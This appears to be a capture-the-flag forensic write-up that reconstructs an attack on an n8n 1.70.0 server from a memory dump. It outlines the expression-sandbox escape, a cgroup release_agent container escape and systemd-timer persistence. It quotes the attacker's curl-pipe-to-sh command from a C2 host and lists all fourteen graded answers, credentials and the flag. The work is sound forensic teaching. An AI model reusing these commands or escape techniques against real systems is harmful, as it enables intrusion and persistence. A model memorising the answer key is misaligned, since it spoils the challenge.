

# n8n

| Field | Value |
|---|---|
| Challenge | n8n |
| Category | Forensic |
| Team name | B2F1 |

This one dropped a huge AES-encrypted ZIP in my lap along with a note ("Please answer all
the questions i provided!") and a live socket that grades answers. The interactive service
fires 14 forensic questions in a fixed format and only coughs up the flag once every single
one is accepted. I grepped the archive for nexsec26{ early on and found nothing, which told
me the flag wasn't hiding in the evidence at all, so I'd have to actually do the forensics and
let the grader hand it over.

## Challenge details and overview

- Supplied file(s) / service: An AES-encrypted ZIP (n8n_archive, 274,528,449 bytes)
      downloaded from Google Drive id 1rnkBrHsQhACFBK7lxFIbXMbbOKlogTmO, plus a
      live Q&A grading service reachable over nc koala.nexsec.my PORT.
- Category: Forensic.
- Initial observation: The challenge text ("Please answer all the questions i provided!")
      pairs the archive with an interactive socket that asks 14 forensic questions in a fixed
      format and only returns the flag once every answer is accepted. The archive itself
      contains no nexsec26{ string; the flag is awarded by the grader.

## Enumeration and analysis

The download turned out to be an AES-encrypted ZIP, and the password shipped with the
challenge, so I verified the hash and extracted it:

- SHA256(n8n_archive) =
      60f3bf7ed83ea1b7b82444d8b236ab24e2b3a8ceb9c1faa8a6662fcfd822f201
- Type = Zip archive data, at least v4.5, compression method=AES Encrypted
- Password = 39d6b83407c03ebd9efdf26fc8489351

Extract command: 7z x -p39d6b83407c03ebd9efdf26fc8489351 n8n_archive -oextracted →
Everything is Ok → extracted/victim.elf (3,179,158,004 bytes)
Inside was a single victim.elf, and when I looked closer it was an ELF 64-bit LSB core file
carrying VirtualBox VBCORE/VBCPU notes, so this was a full memory core dump of a
VirtualBox guest, not a disk image. I characterized the guest from the strings and note data:

- Hostname: server01
- Kernel: Linux 6.8.0-146-generic (Ubuntu 24.04, built Sep 2026)
- Dump time: ~2026-10-10T03:21-03:23Z
- Networks: 10.0.2.15 (NAT), 192.168.56.10 (Host-Only), docker bridges
      172.17/172.18
- Users: aisyah (uid 1001), hafiz (uid 1002)

The host-only interface 192.168.56.10 stood out as where the exposed service lived. From
there I carved the n8n state out of the core, and that revealed a Docker Compose
deployment:

- Compose project: server (volume server_n8n_data → /home/node/.n8n)
- Image: n8nio/n8n:1.70.0 (Node 20.18.0)
- Listen: http://192.168.56.10:5678 (N8N_SECURE_COOKIE=false)
- Capabilities: CAP_SYS_ADMIN present (CapEff 00000000a82425fb)
- encryptionKey: TVj7h42eczfxnHYbnFoaK0HbwOtXESu2

The n8n user records I recovered from memory listed owner admin@acme.local plus
members aisyah.rahman@acme.local, hafiz.zain@acme.local, and lily.tan@acme.local. Only
the attacker-created workflows (all named rpt-*) survived in memory, and each one was a
manualTrigger → Set ("Edit Fields") node whose expression abuses the n8n expression
engine to break the sandbox: Error.prepareStackTrace + stack[0].getThis().Function +
child_process.execSync

That's the n8n 1.70.0 expression-sandbox escape (CVE-class n8n expression injection). And
because the container runs with CAP_SYS_ADMIN, in-container root can pivot to the host
via the cgroup release_agent trick, so I knew where this was headed.

## Attack narrative and Q&A answers

Piecing the rpt-* workflow nodes together with the host artifacts, I reconstructed the timeline
(victim clock, UTC 2026-10-10):

- 03:22:59: attacker authenticates to n8n as aisyah.rahman@acme.local
- 03:23:03: rpt-1791602575 CapEff probe (grep CapEff /proc/self/status) →
      00000000a82425fb
- 03:23:04: rpt-1791602577 id && hostname → uid=0(root) / c57d57e96c09
- 03:23:06: rpt-1791602579 download linpeas to /tmp/l.sh (-rwxr-xr-x 1791831 bytes)
- 03:23:13: rpt-1791602586 base64 staging of database.sqlite
- 03:23:14: rpt-1791602587 cgroup release_agent container escape → host
      persistence

After the escape the attacker dropped /usr/local/bin/sysupdate (python3) plus
sysupdate.service and sysupdate.timer (OnBootSec=2min, OnUnitActiveSec=10min) and
beaconed to C2 192.168.56.107:4444, encrypting the traffic with repeating-key XOR using
K3rn3l_X0R_2026!.

With all that in hand I worked through the grader's 14 questions. Here's the full accepted
answer set (verbatim) that finally unlocked the flag:

- 1. Victim IP address → 192.168.56.10
- 2. Attacker IP address → 192.168.56.107
- 3. Open TCP ports on the victim → 22,5678
- 4. App and version on the high TCP port → n8n 1.70.0
- 5. Credentials used (email:password) → aisyah.rahman@acme.local:Password123
- 6. Successful n8n auth time (UTC) → 10/10/2026 03:22:59
- 7. RCE payload insertion time (UTC) → 10/10/2026 03:23:03
- 8. Priv-esc script staged in container → /tmp/l.sh
- 9. Capability enabling the escape → CAP_SYS_ADMIN
- 10. cgroup file abused to run on host → release_agent
- 11. MITRE ATT&CK persistence sub-technique → T1053.006
- 12. Command to activate persistence → systemctl enable --now sysupdate.timer
- 13. C2 repeating-key XOR key (ASCII) → K3rn3l_X0R_2026!
- 14. Command the C2 sent back → curl -fsSL http://192.168.56.107:8080/s/update.sh
        | sh

A couple of decoys tried to throw me off. There's no nexsec26{ or flag{ string anywhere
inside the archive or core; grepping only turned up incidental "Nexsec" / "Bejing Nexsec Inc."
noise and n8n node-documentation field names. Sample credential strings such as
P@ssw0rd and Letmein1 are n8n node-doc examples and are not the real credential, and
the live service may also present anti-agent bait. I treated only the grader's final line as
authoritative.

## Flag retrieval and proof

Submitting all 14 answers in order over the socket returned "Congratulations!" and the flag.
For proof, the grader reported Status: Correct! for Q1–Q14 and then emitted the flag
(captured in qa_session.log); the flag is produced by the service, not read from the evidence
archive.

## Recovered CTF flag

nexsec26{cdc591a76a6e05f352ed8953ec5e4a3e_4ff8bc2d7f0af77ade03212aca2e233b99a
acc2362c92308c9eeeb1ed23309c2}

n8n grader: all 14 questions Correct, flag returned

## Source Figures

